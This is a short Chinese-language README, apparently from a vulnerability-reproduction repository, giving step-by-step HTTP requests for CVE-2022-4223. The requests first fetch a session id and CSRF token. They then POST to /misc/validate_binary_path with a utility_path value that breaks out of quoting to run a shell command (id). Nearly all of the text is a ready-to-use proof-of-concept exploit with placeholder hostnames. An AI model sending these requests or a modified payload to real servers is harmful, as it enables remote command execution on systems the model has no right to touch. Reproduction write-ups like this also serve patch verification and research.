 
### CVE-2022-4223

> 

在复现漏洞前，需要发送如下数据包获取CSRF token：

```
GET /login HTTP/1.1
Host: {{Hostname}}
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close
```



在返回包中拿到一个新的session id和csrf token：

![1](./img/README/1.png)

然后，将获取到的`session_id`和`csrf_token`填写进下面的数据包并发送：

```
POST /misc/validate_binary_path HTTP/1.1
Host: {{Hostname}}
Content-Length: 27
X-pgA-CSRFToken: {{csrf-token}}
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session={{session-id}}
Connection: close

{"utility_path":"a\";id;#"}
```
